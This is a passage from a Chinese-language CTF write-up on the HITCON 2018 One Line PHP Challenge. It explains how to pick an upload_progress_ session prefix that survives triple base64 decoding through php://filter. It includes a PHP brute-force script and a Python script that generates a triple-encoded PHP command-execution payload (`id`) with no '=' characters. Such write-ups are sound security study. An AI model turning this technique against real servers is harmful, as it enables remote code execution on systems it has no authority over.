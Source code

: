 解码之后的数据是`?`

然而解密`"upload_progress_ZZ".triple_base64_encode("<?=\`id\`;>")`解码之后就是`<?=\`id\`;>`

就是由于`upload_progress_ZZ`在三次的解码中，第一次解码后留下了四个允许字符`hikY`，第二次解码没有允许字符，第三次就变成了空。

![](hitcon2018-One-Line-PHP-Challenge\10.png)

在这三次中，都是允许字符的数量都是4的倍数，这样就不会破坏后面传入的php代码。

队友写的一个脚本

```php
<?php

$str = "ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz";
while(true) {
	$i = 0 ;
	$data = "upload_progress_".substr(str_shuffle($str),10,2);
	$s = base64_decode($data);
	$s_length = strlen(preg_replace('|[^a-z0-9A-Z+/]|s', '', $s));
	$ss = base64_decode($s);
	$ss_length = strlen(preg_replace('|[^a-z0-9A-Z+/]|s', '', $ss));
	$sss = base64_decode($ss);
	if($s_length%4==0 && $ss_length%4==0 && $sss=='') {
		echo $data;
		break;
	}
}
```



  

对于后面的php代码，也有一个要求，就是三次解密中都不能出现`=`，因为base64中`=`只能放在编码的最后补位，出现在中间的话，`php://filter/convert.base64-decode`流就无法正常解析，就会报错。

对此oragne师傅写了个脚本生成这玩意

```python
import string
from base64 import b64encode
from random import sample, randint

payload = '@<?php echo `id`;?>'

while 1:
    junk = ''.join(sample(string.ascii_letters, randint(8, 16)))
    x = b64encode(payload + junk)
    xx = b64encode(b64encode(payload + junk))
    xxx = b64encode(b64encode(b64encode(payload + junk)))
    if '=' not in x and '=' not in xx and '=' not in xxx:
        print xxx
        break
```
